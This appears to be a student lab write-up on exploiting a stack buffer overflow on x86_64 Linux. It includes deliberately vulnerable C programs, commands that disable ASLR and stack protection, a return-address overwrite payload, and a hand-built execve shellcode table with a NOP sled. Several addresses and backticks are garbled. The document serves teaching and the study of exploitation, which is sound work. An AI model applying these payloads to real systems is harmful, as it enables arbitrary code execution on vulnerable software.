


# Buffer overflow

## System

Linux, x86_64

I use EDB on Linux instead of ollydb.

## Task

I have divided the task into 3 parts, namely:

> 1. Analyzing the binary, the stack, coming up with a strategy
>
> 2. Running the secret function ``secret_function()``
>
> 3. Executing a syscall and running another program

### First program attacked
```c
#include <stdio.h>
#include <string.h>

void secret() {
	printf("I've stepped into the secret function!\n");
}

int main(int argc, char * argv[]) {
	char buffer[24];
	strcpy(buffer, argv[1]);
	printf("Hello, %s\n", buffer);
	return 0;
}
```

## Important before you start

### Compilation

On Linux, you need to compile as follows

```shell
gcc -O0 -g -fno-stack-protector -z execstack main.c -o main.out
```


### Disabling ASLR

#### ASLR - Address Space Layout Randomization

Disable by overwriting the following value:

```shell
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

Originally the value ```2```

After restarting the PC, the value is restored

## 1. Analyzing the binary, the stack, coming up with a strategy

### Stack and instruction description

I have attached a description of the stack and the individual instructions of the ``main()`` function.

If I mention and unary instruction, I take the numbering in the left column, so here is the function from instructions ...6f to ...b9

#### The stack in the state after instruction 7A

| Address | Contents - hex | Text | Note |
| ----------------- | ---------------- | ---------------------------- | --------------------------------------------------------- |
| 00007fff:ffffdd10 | 00007fffffde58 | | Parameter of function main (pointer to argument array), ins 7A, here showing RSP |
| 00007fff:ffffdd18 | 0000000200000000 | | Main function parameter (number of arguments), ins 77 |
| 00007fff:ffffdd20 | 0000000000000000 | | Status from last time (probably there is a buffer) |
| 00007fff:ffffdd28 | 00007ffff7fe6380 | | Status from last time (probably there is a buffer) |
| 00007fff:ffffdd30 | 0000000000000000 | | | Status from last time (there is probably a buffer) |
| 00007fff:ffffdd38 | 00007ffffff7ffdab0 | | | Status from last time (there is probably a buffer) |
| 00007fff:ffffdd40 | 0000000000000002 | | | This shows the RBP, there is the value of the old RBP |
| 00007fff:ffffdd48 | 00007ffff7dd1790 | return to 0x00007ffff7dd1790 | return address |
| | 00007fff:ffffdd50 | | | |
| ... | | | |

#### Directions



> ##### Instruction 6F
>
> Backup of existing RBP

> ##### Instruction 73
>
> Creating space for local variables

> ##### Instructions 77 and 7A
>
> Arguments of the ``main()`` function to the top of the stack (addresses ...dd10 and ...dd18)

> ##### Instructions 7E to 90
>
> Arguments for the function ``strcpy()`` to the registers RSI and RDI, in RSI is a pointer to the contents of the second argument of the program, in RDI is the address where the contents are to be copied, so from this we know that the buffer starts at address ``0x00007fffffdd20``. From this we don't know exactly how long the buffer is, but it certainly shouldn't extend to address ```0x00007fffffdd40``, which is where the RBP register points to. Thus, we can see from the stack table that the buffer is at most 32 bytes in size

> ##### Instruction 93
>
> Calling ``strcpy()```

> ##### Instructions 98 to A9
>
> Preparing arguments for the ``printf()`` function.  In RSI the pointer is to the beginning of the buffer, in RDI the constant text 

> ##### Instruction AE
>
> Calling ```printf()``

> ##### Instruction B3
>
> Reset RAX, return value of function ``main()``

> ##### Instruction B8
>
> leave = RSP to RBP, then POP to RBP

> ##### Instruction B9
>
> ret = pops the address from the stack and jumps there 

### Strategy

So from the stack, it shows that the 33rd to 40th bytes of the input overwrite the value of the PUSHED RBP and the 41st to 48th bytes of the input overwrite the return address

I verify this with the following input:

```shell
edb --run ./a.out $(python -c "print('a'*32+'bbbbbb'+'cccccc')")
```

#### The buffer after filling the buffer with the fictional input

| Address | Content - hex | Text | Note |
| ----------------- | ---------------- | ---------------- |------------------------------------------------------------------|
| 00007fff:ffffdd10 | 00007fffffde58 | | Parameter of function main (pointer to argument array), ins 7A <- RSP |
| 00007fff:ffffdd18 | 0000000200000000 | | Main function parameter (number of arguments), ins 77 |
| 00007fff:ffffdd20 | 6161616161616161 | ASCII "aaaaaaaa" | | |
| 00007fff:ffffdd28 | 6161616161616161 | ASCII "aaaaaaaa" | | |
| 00007fff:ffffdd30 | 6161616161616161 | ASCII "aaaaaaaa" | | |
| 00007fff:ffffdd38 | 6161616161616161 | ASCII "aaaaaaaa" | | |
| 00007fff:ffffdd40 | 6262626262626262 | ASCII "bbbbbbbb" | Overwritten backup RBP <- RBP |
| 00007fff:ffffdd48 | 63636363636363 | ASCII "cccccccc" | Overwritten return address |
| | 00007fff:ffffdd50 | | | |
| ... |      

## 2. Running the secret function ``secret_function()``

### Procedure

> 1. Getting the address of the secret function ``secret_function()``
>
> 2. Creating an input that causes the secret function ``secret_function()`` to run

### Elaboration

#### 1. Getting the address of the secret function ``secret_function()``


From the listing, we read that 'secret' is located at ```0x5555555159``

#### 2. Create an input that causes the secret function ``secret_function()`` to run.

Now that we know the address of the secret function ``secret_function()``, we write this address after the 40th character of the input so that the program will return to the secret function after completing the ``main`` function

When writing the address, we have to keep the endianness, in my case little endian, so I write the address "from right to left", see

```shell
./a.out $(python -c "print('a'*40)")$'\x59'$'\x51'$'\x55'$'\x55'$'\x55'$'\x55'
```

After running the program with the given argument, you can see that the secret function ``secret_function()`` has been invoked:



##### Problem characters

However, if the address of the secret function contained a null byte anywhere other than at the end (where it would possibly be padded with ``strcpy()``), or more at the end, bash would ignore the terminating null altogether. Thus, the function address can only contain one terminating null, and only at the very end, otherwise the attack would not be feasible.

The same will be true for the **syscall** system call, for example, where none of the instructions can contain a null byte for the same reason. Even the necessary strings in the input won't be able to have a terminating null at the end, I'll have to create that using the instructions and also generally rework everything into the necessary form.

Other problem characters are **0x09**, **0x0a** and **0x20**. Horizontal tab, Line feed and space. They are taken as the end of the input, after them there is nothing further.

## 3. Performing a syscall and starting another program

In my case, I use **/bin/cat** to dump the contents of **file.txt**

For this I will need a bigger buffer to accommodate the NOP sequence and all the instructions. So I will create a new vulnerable program with a bigger buffer (main_bigger.c).

```c
#include <stdio.h>
#include <string.h>

int main(int argc, char * argv[]) {
	char buffer[1024];
	strcpy(buffer, argv[1]);
	printf("Hello, %s\n", buffer);
	return 0;
}
```

Same compiled
```shell
gcc -O0 -g -fno-stack-protector -z execstack main_bigger.c -o main_bigger.out
```

So we insert the exploit into the program from the command line as an argument. This will be generated by the **exploit_factory.out** program in the **input.bin** file, and the victim will insert it into the program as follows:

```shell
./main_bigger.out $(cat input.bin)
```

The stack is pretty much the same layout as in the program with the smaller buffer, except that there is more buffer space:

| Address | Content - hex | Text | Note |
| ----------------- | ---------------- | ---------------------------- |----------------------------------------------------------|
| 00007fff:ffffd510 | 00007fffffde58 | | Parameter of function main (pointer to argument array) <- RSP |
| 00007fff:ffffd518 | 0000000200000000 | | Main function parameter (number of arguments) |
| 00007fff:ffffd520 | 0000000000000000 | | buffer |
| 00007fff:ffffd528 | 00007ffff7fe6380 | | | buffer |
| ... | ... | ... | ... |
| 00007fff:ffffd918 | 00007ffffff7ffdab0 | | | buffer |
| 00007fff:ffffd920 | 0000000000000002 | | | backup RBP, there is from ins 6F <- RBP |
| 00007fff:ffffd928 | 00007ffff7dcc790 | return to 0x00007ffff7dcc790 | return address |

From this we calculate that the 1032nd to 1040th byte overwrites the return address

### Procedure

> 1. How do I run /bin/cat with the argument
> 2. Buffer layout
> 3. Creating malicious code

### Elaboration

#### 1. How do I run /bin/cat with the argument

I will use a function, system call number 0x3b, ``execve()`` with the following arguments:

```c
char *envp[] = {NULL}
char *args[] = {"/bin/cat", "file.txt", NULL};
execve(args[0], args , NULL);
```

First, however, I need to make char ``*args[]`` and ``*envp[]`` on the stack using instructions. More on that in a moment.

#### 2. Buffer layout

The buffer will be laid out as follows:

1. "/bin/cat" (**8 B**)
2. "file.txt" (**8 B**)
3. sequence of NOPs (**897 B**)
4. Instructions (**61 B**)
5. Padding (**58 B**)
6. Return address (**6 B**)

The return address points approximately to the middle of the NOP sequence

In Padding, I create the necessary variables using the instructions- "/bin/cat", "file.txt", args, envp. Here's a table of what I need to be in Padding:

| Address | Content - hex | Text | Note |
| ------------ | ---------------- | -------- | ----------------- |
| ... | 7fffffffd908 | | Pointer |
| ... | 7ffffffffd918 | | Pointer |
| 7fffffffd900 | 0 | NULL | ... |
| 7fffffffd908 | 7461632f6e69622f | /bin/cat | Running program |
| 7ffffffffd910 | 0 | NULL | ... |
| 7ffffffd918 | 7478742e656c6966 | file.txt | file to open |
| 7fffffffd920 | 0 | NULL | ... |
| ... | 0 | NULL | ... |


#### 3. Creating malicious code

| Instructions | Hexadecimal | Note |
|------------------------|-------------------------|-------------------------------------------------------|
| xor rax, rax | 48 31 c0 | All zeros |
| push rax | 50 | Zeroes on Stack |
| push rax | 50 | terminating zero for string "file.txt" | 
| mov rcx, [RSP - 0x3f8] | 48 8b 8c 24 08 fc ff ff | "file.txt" to rcx |
| push rcx | 51 | "file.txt" to stack |
| push rax | 50 | Terminating null for string "/bin/cat" |
| mov rcx, [RSP - 0x3f0] | 48 8b 8c 24 10 fc ff ff | "/bin/cat" to rcx |
| push rcx | 51 | "/bin/cat" to stack |
| push rax | 50 | NULL element args |
| mov rcx, rsp | 48 89 e1 | ... |
| add rcx, 0x18 | 48 83 c1 18 | ... |
| push rcx | 51 | Pointer to "file.txt" on stack |
| mov rcx, rsp | 48 89 e1 | ... |
| add rcx, 0x10 | 48 83 c1 10 | ... |
| push rcx | 51 | Pointer to "/bin/cat" on stack |
| mov rdx, rsp | 48 89 e2 | ... |
| add rdx, 0x10 | 48 83 c2 10 | Pointer to array containing only NULL |
| mov rsi, rsp | 48 89 e6 | Argument preparation - pointer to array of arguments (args) |
| mov rdi, [rsp] | 48 8b 3c 24 | Argument preparation - pointer to "/bin/cat" |
| add rax, 0x3b | 48 83 c0 3b | Function execve() |
| syscall | 0f 05 | System call |
 
The instruction first prepares the necessary variables on the stack, then fills the rdx, rsi, rdi registers with them. The rax register is loaded with 0x3b as ``execve()`` and syscall is called.

In devising these instructions, I had to deliberately avoid problem characters.

To build the exploit there is a program **exploit_factory.c** which is compiled as follows. (Individual constants like return address are set directly in the file **exploit_factiory.c**)

```shell
gcc -Wall -pedantic exploit_factory.c -o exploit_factory.out
```

This, when run, creates the malicious input and saves it in the **input.bin** file (also an attached file)

I check in the EDB debugger that the instructions actually worked as I intended:
``shell
edb --run ./main_bigger.out $(./exploit_factory.out > info.log; cat input.bin)
```

And after running the program itself, the cat program does indeed output the contents of the file.txt file:
```shell
./main_bigger.out $(./exploit_factory.out > info.log; cat input.bin)
```

From my previous experiments, it appears that a fairly large buffer is needed for this attack. First, to accommodate all the instructions and variables needed, but also to make the NOP sequence long enough. I tried a variant with a 256 byte buffer, but there the program ended on Bus Error. 

Also, if all the addresses in the NOP sequence contain the problem character not at the end, the attack would also be infeasible this way.